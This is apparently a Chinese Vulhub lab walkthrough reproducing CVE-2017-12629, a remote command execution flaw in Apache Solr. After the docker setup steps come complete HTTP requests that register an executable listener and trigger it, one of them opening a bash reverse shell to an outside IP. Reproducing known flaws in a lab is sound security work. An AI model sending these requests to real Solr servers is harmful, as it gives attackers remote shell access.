





Apache Solr 远程命令执行漏洞 CVE-2017-12629¶
漏洞描述¶
漏洞原理与分析可以参考：
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。
本环境测试RCE漏洞。
环境搭建¶
Vulhub运行漏洞环境：
docker-compose up -d
命令执行成功后，需要等待一会，之后访问http://your-ip:8983/即可查看到Apache solr的管理页面，无需登录。

漏洞复现¶
首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158
{"add-listener":{"event":"postCommit","name":"new_listener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/awesome_poc"]}}

然后进行update操作，触发刚才添加的listener：
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15
[{"id":"test"}]

执行docker-compose exec solr bash进入容器，可见/tmp/awesome_poc已成功创建：

执行反弹shell命令：
POST /solr/demo/config HTTP/1.1
Host: your-vps-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 192
{"add-listener":{"event":"postCommit","name":"newlistener_bash","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1"]}}
然后进行update操作，触发刚才添加的listener：
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15
[{"id":"test"}]
成功接收反弹shell：
